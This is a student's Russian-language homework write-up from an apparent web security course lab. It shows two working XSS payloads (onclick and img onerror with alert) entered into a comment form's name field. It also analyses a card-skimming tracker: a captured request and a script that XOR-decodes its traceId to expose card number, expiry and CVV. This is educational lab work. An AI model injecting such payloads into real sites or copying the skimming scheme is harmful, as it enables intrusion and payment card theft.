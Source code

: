 # 05.03.01. JavaScript - Лебедев Д.С.
https://github.com/netology-code/ibweb-homeworks/blob/master/04_js/README.md

[Задание .pdf](_att/050302/050302_Домашнее%20задание%20к%20занятию%20«1.4.%20JavaScript».pdf)
### Задание «Комментарии»
Для выполнения XSS-атаки, приводящей к выполнению кода `alert('pwned')` в системе комментариев, найдены примеры payload-ов, которые следует ввести в поле формы "Имя":

1. Вариант - XSS через атрибут onclick:
```html
<button onclick="alert('pwned')">Click me</button>
```

Результат - при нажатии на кнопку.

![](_att/050302/050302-01-01.png)  

2. Вариант 2 - XSS через обработчик событий в HTML-тегах:
```html
<img src=x onerror=alert('pwned')>
```

![](_att/050302/050302-01-02.png)  

Результат при обновлении страницы

### Задание «Трекер»*
Трекер передал запрос с зашифрованными данными:

```sh
curl 'http://localhost:9002/api/track' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: http://localhost:9002/' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: 549adc13778ff712967357ec3c42209c9e0437d56f5e5b18bab4bf71d72f8a4b' \
  -H 'Origin: http://localhost:9002' \
  -H 'Connection: keep-alive' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=4' \
  --data-raw '{"traceId":"Ag0AVlBZBAYCAg1TUwIEBwwDAgYMDl9SAVkGBggBC1AMUwMACwNUAgdWBFQDVgINVFJaDFRSAAJdAwVXD1UFUw","total":79974}'
```

![](_att/050302/050302-02-01.png)  

Можно попытаться расшифровать `traceId` чтобы доказать, что трекер передает конфиденциальные данные.  
Пишем скрипт и выполняем в консоли:

```js
function decryptTrackerData() {
    const apikey = '549adc13778ff712967357ec3c42209c9e0437d56f5e5b18bab4bf71d72f8a4b';
    const traceId = "AQUJVFVSCwYCAg1TUwIEBwwDAgYADlxZAlEOAAYKCFEKUgECAQ5XAABRB1YBUQYOUlZRA1JSAwVQBwNQAFkHVA";
    
    const base64Decoded = atob(traceId);
    const decrypted = base64Decoded.split('').map((char, index) => 
        String.fromCharCode(char.charCodeAt(0) ^ apikey.charCodeAt(index))
    ).join('');
    
    const parts = decrypted.split(':');
    
    console.log('Номер карты:', parts[1]);
    console.log('Срок:', parts[2] + '/' + parts[3]);
    console.log('CVV:', parts[4]);
}

decryptTrackerData();
```

Результат:

  ![](_att/050302/050302-02-02.png)  

Вывод: Расшифровка показывает прямые доказательства кражи данных. Трекер собирает конфиденциальные данные:
- Полный номер банковской карты
- Срок действия
- CVV код (добивает случайными цифрами)

Схема работы: 
- Пользователь вводит данные 
- Трекер их перехватывает
- Шифрует
- Отправляет злоумышленникам

Таким образом, трекер является вредоносным инструментом для кражи банковских данных

---
